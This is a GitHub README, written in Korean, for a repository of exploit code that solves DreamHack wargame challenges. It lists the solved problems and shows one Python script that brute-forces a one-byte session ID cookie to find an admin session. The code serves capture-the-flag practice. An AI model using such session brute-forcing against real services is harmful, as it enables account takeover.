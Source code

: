 # DreamHack Code :computer:
DreamHack 문제들을 해결한 exploit 코드들이 있습니다.
(Python 위주)


## 문제 목록 :unlock:
- [x] Mango
- [x] Counting_query
- [x] proxy-1
- [x] session
- [x] stream
- [x] web-ssrf


## 예시 코드 :clipboard:
```
import requests

target_url = 'localhost_input'  # 타겟 서버 주소를 여기에 입력

def session_fixation_attack():
    for i in range(256):
        session_id = bytes([i]).hex()

        cookies = {'sessionid': session_id}

        response = requests.get(target_url, cookies=cookies)

        if 'Hello' in response.text:
            print(f'Success! Found admin session ID: {session_id}')
            break
        else:
            print(f'Tried session ID: {session_id}, but not admin.')

session_fixation_attack()
```